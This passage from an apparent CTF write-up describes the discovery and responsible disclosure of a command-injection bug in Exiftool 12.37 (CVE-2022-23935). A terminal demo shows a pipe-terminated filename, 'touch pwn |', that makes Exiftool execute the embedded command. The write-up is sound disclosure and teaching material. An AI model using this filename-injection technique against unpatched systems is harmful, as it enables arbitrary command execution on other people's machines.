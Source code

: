 ```
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ ./exiftool 'touch pwn |' 
Error: File not found - touch pwn |
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ touch 'touch pwn |' 
$ ./exiftool 'touch pwn |' 
ExifTool Version Number         : 12.37
File Name                       : touch pwn |
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2021:12:19 14:28:45-06:00
File Access Date/Time           : 2021:12:19 14:28:45-06:00
File Inode Change Date/Time     : 2021:12:19 14:28:45-06:00
File Permissions                : prw-------
Error                           : File is empty
$ ls pwn 
pwn
```

The one major requirement I found was that the file needed to exist on the machine for the vulnerability to be triggered, or else Exiftool would error out with `File not found`. The "Strip Me" challenge copied the file to disk with the same filename before running Exiftool, satisfying this requirement. 

![still from the matrix where morpheus explains to neo what the matrix is](images/listen-here-jack.jpg)

> This is the world that you know, the world that exists at ctftime.org

> It exists now as part of a neural interactive simulation that we call "computer gaming"

> You've been living in a dream world - *this* is the world as it exists today

> Welcome to the Desert of the Real-Life vulnerabilities

I emailed Phil Harvey, the creator of Exiftool, with the above information and a fix was released with [version 12.38](https://github.com/exiftool/exiftool/commit/74dbab1d2766d6422bb05b033ac6634bf8d1f582) within 24 hours. 

I was told by some online hacker friends to request a CVE. It was assigned [CVE-2022-23935](https://www.cve.org/CVERecord?id=CVE-2022-23935) and [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-23935) gave it a CVSS of 9.8. 
